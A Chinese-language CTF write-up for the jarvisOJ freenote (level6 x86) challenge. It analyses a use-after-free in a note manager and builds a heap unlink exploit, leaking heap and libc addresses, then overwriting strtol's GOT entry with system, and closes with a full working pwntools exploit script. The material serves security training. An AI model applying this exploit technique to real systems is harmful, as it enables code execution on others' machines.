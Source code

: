 # jarvisOJ level6 x86

### 0x0 前置补偿

[Unlink-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unlink-zh/)

[main_arena 在libc里的相关偏移量]([https://binlep.github.io/2019/10/15/%E3%80%90Pwn%20%E7%AC%94%E8%AE%B0%E3%80%91%E5%A0%86%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/](https://binlep.github.io/2019/10/15/[Pwn 笔记]堆利用总结/))

### 0x1 分析

看一下安全性。

<img src="https://i.loli.net/2020/02/27/UYecC5uA2sOd1th.png" style="zoom:50%;" />

堆栈上的代码是没办法执行的。got表可以修改。

`main`：

```c
int __cdecl main()
{
  unsigned int v0; // eax

  buf();
  preload();
  while ( 1 )
  {
    v0 = menu();
LABEL_3:
    switch ( v0 )
    {
      case 1u:
        list();                                
        continue;
      case 2u:
        create();
        continue;
      case 3u:
        edit();
        continue;
      case 4u:
        delete();
        v0 = menu();
        if ( v0 > 5 )
          goto LABEL_6;
        goto LABEL_3;
      case 5u:                                  
        puts("Bye");
        return 0;
      default:
LABEL_6:
        puts("Invalid!");
        break;
    }
  }
}
```



分析一下`main`代码，主要以下几个功能

1. List Note：按格式打印所有note
2. New Note：新建一个note，但是输入内容的最后一个字符没有置零。
3. Edit Note：编辑指定note，若内容长度变化，relloc一个合适空间。
4. Delete Note：free指定note，但是没有在note表中的note指针置零。

另外，这其实是两个结构体：可以在`preload`函数里观察到。

```c
struct noteList{
  int noteNumMax;
  int noteCount;
  struct note[];
};

struct note{
  bool flag;
  int contentLen;
  char *content;
}
```

所以到此为止，我们发现这里有一个UAF漏洞，因为free指定note之后，noteList中相关note指针并没有置零。

大致思路就是通过list函数来泄漏出其中一个`chunk`的地址，从而得到heap的基地址。

再通过Unlink来修改`note[];`中的指针，从而实现任意地址的修改，再修改GOT表，完成执行`/bin/sh`。

首先我们泄漏`main_arena`地址。先`malloc`出几个note防止free note的时候合并到`top chunk`。

因为`Unsorted Bin`是一个双向循环链表，后进去的`chunk`的`fd`指针指向前一个`chunk`，我们可以通过溢出，来泄漏`fd`指向的`chunk`地址。

```python
#leak heapbase
create(p, 'A' * 0x80)         #idx:0
create(p, 'A' * 0x80)         #idx:1
create(p, 'A' * 0x80)         #idx:2
create(p, 'A' * 0x80)         #idx:3
create(p, 'A' * 0x80)         #idx:4
# debug(p, 'b*0x080484D0')
delete(p, 3)
delete(p, 1)

payload = 'A'*0x80 + 'a'*0x8	
edit(p, 0, payload)
list(p)						#leak chunk3 addr
p.recvuntil('a' * 0x8)
heap_base = u32(p.recv(4)) - 0xC10 - 0x88 * 3 - 0x8	#preload中malloc过一个大chunk。
chunk0_addr = heap_base + 0x18
chunk1_addr = heap_base + 0x08 + 0xc10 + 0x88 * 1 + 0x08
```

接下来是Unlink。

如果已经free掉`note0`如果再free`note1`的话，系统会合并`note1`和`note0`。前提是他们地址相邻。

我们在`note0`伪造一个`chunk`，来unlink这个`chunk`就可以修改`noteList`中的指针。

```python
payload = p32(0x88) + p32(0x80) + p32(chunk0_addr - 0xc) + p32(chunk0_addr - 0x8)	#构造的chunk地址为notelist上存的第一个note的地址。

payload = payload + 'a' * (0x80 - 0x4 * 4) + p32(0x80) + p32(0x88)	#修改note1所在chunk的pre_size和size。

edit(p, 0, payload)
delete(p, 1)	#unlink
```

接下来，note0指向&note0 - 0xC的位置。

所以我们可以通过`edit(0)`来修改`noteList`中的指针。

参考某大佬的wp，我们修改note2上的地址为`"strtol"`的got地址，来泄漏libc地址。

```python
payload = p32(2) + p32(1) + p32(0x88) + p32(chunk0_addr - 0xc)
payload = payload + p32(1) + p32(0x4) + p32(elf.got["strtol"])
payload = payload.ljust(0x88, '\x00')
edit(p, 0, payload)
list(p)
p.recvuntil("0. ")
p.recvuntil("1. ")
libc_Base = u32(p.recv(4)) - libc.symbols["strtol"]
```

修改`"strtol"`的got为`system`地址即可完成。

```python
system_addr = libc_Base + system_libc
edit(p, 1, p32(system_addr))
```

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug' 
context.terminal = ['tmux', 'splitw', '-h']
# p = remote("pwn2.jarvisoj.com", 9885)
p = process('./freenote_x86')
elf = ELF("./freenote_x86")
# libc = ELF("./libc-2.19.so")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

memalign_hook_libc = libc.symbols["__memalign_hook"]
system_libc = libc.symbols["system"]

def debug(p, cmd):
  '''cmd = 'b *%d' %(proc_base+breakaddr)'''
  gdb.attach(p, cmd)
  pause()

def create(p, content):
  p.sendlineafter("Your choice: ", "2")
  p.sendlineafter("Length of new note: ", str(len(content)))
  p.sendafter("Enter your note: ", content)

def list(p):
  p.sendlineafter("Your choice: ", "1")

def edit(p, idx, content):
  p.sendlineafter("Your choice: ", "3")
  p.sendlineafter("Note number: ", str(idx))
  p.sendlineafter("Length of note: ", str(len(content)))
  p.sendafter("Enter your note:", content)

def delete(p, idx):
  p.sendlineafter("Your choice: ", "4")  
  p.sendlineafter("Note number: ", str(idx))

#leak heapbase
create(p, 'A' * 0x80)         #idx:0
create(p, 'A' * 0x80)         #idx:1
create(p, 'A' * 0x80)         #idx:2
create(p, 'A' * 0x80)         #idx:3
create(p, 'A' * 0x80)         #idx:4
# debug(p, 'b*0x080484D0')
delete(p, 3)
delete(p, 1)

payload = 'A'*0x80 + 'a'*0x8
edit(p, 0, payload)
list(p)
p.recvuntil('a' * 0x8)
heap_base = u32(p.recv(4)) - 0xC10 - 0x88 * 3 - 0x8
chunk0_addr = heap_base + 0x18
chunk1_addr = heap_base + 0x08 + 0xc10 + 0x88 * 1 + 0x08

payload = p32(0x88) + p32(0x80) + p32(chunk0_addr - 0xc) + p32(chunk0_addr - 0x8)
payload = payload + 'a' * (0x80 - 0x4 * 4) + p32(0x80) + p32(0x88)
edit(p, 0, payload)
delete(p, 1)

payload = p32(2) + p32(1) + p32(0x88) + p32(chunk0_addr - 0xc)
payload = payload + p32(1) + p32(0x4) + p32(elf.got["strtol"])
payload = payload.ljust(0x88, '\x00')
edit(p, 0, payload)
list(p)
p.recvuntil("0. ")
p.recvuntil("1. ")
libc_Base = u32(p.recv(4)) - libc.symbols["strtol"]
system_addr = libc_Base + system_libc

edit(p, 1, p32(system_addr))

p.interactive()
```



